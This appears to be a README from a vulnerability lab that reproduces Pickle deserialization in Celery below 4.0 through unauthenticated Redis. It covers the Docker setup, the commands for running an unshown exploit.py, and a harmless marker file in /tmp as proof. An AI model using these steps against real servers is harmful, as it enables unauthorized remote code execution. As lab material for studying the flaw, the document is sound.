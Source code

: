 # Celery <4.0 Redis unauthorized access + Pickle deserialization exploit

[中文版本(Chinese version)](./README.zh-cn.md)

Celery is a simple, flexible, and reliable distributed system that processes a large number of messages while providing the tools needed to operate and maintain such a system. It is a task queue focused on real-time processing and also supports task scheduling.

In Celery <4.0 version, Pickle is used by default for serialized task messages. When the queue service（e.g. Redis/RabbitMQ/RocketMQ ） used has an unauthorized access problem, the Pickle deserialization vulnerability can be used to execute arbitrary code.

## Vulnerability Environment

Execute the following command to start Celery 3.1.23 + Redis:

```bash
docker-compose up -d
```

## Exploit

The exploit script `exploit.py` only supports use under python3

```bash
pip install redis
#Check the IP of the redis service, please correct the container name by yourself
docker inspect --format='{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' celery3redisunauth_redis_1
python exploit.py [redis Contianer IP]
```

View Results：

```
docker logs celery3redisunauth_celery_1
```

You can see the following task message error：

![](1.png)

```bash
docker exec -it celery3redisunauth_celery_1 ls -l /tmp
```

You can see that the file `celery_success` was successfully created

![](2.png)

## Reference

https://docs.celeryproject.org/en/stable/userguide/configuration.html

https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk

https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers

https://www.jianshu.com/p/52552c075bc0

https://www.runoob.com/w3cnote/python-redis-intro.html

https://blog.csdn.net/SKI_12/article/details/85015803
